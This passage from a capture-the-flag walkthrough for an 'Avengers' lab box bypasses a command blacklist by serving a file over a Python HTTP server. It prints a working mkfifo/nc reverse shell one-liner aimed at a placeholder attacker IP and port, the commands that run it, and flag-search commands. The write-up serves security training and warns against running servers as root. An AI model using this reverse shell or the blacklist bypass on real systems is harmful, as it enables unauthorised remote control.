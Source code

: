 Awesome! Let’s set up a python http server on port 80 with a file called rev. This file can now hold the blacklist nc string as it is not being written to the Jarvis Command Line.

You can try many different reverse shells but I find this particular one to be the most reliable:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> <attacker port> >/tmp/f

Running sudo python3 -m http.server 80 and executing /tmp/malicious\_command we get a hit!

Looking at the content of /tmp we see these files now:

![](/reports/Avengers/image17.png)

Now on our machine let’s listen to the port that we specified in the reverse shell command.

Jarvis commands:

chmod +x /tmp/rev; /tmp/rev

And we get a reverse shell!

![](/reports/Avengers/image3.png)

No need to privesc! We are already root because the server was running as root! Now this is a huge vulnerability that is not too uncommon. NEVER RUN YOUR WEB SERVERS AS ROOT! It is better to run a web server as a low-privileged user such as www-data in case of any web vulnerabilities. So anyways, now that we have root I’d call the box done. Let’s just get the flags straight from the terminal.

find / 2>/dev/null|grep -i flag|grep -i .txt

![](/reports/Avengers/image11.png)

grep -r flag2 /home

![](/reports/Avengers/image12.png)

For task 6 view the html source code and scroll to the bottom. On the very left side of the screen is the number of lines of code.
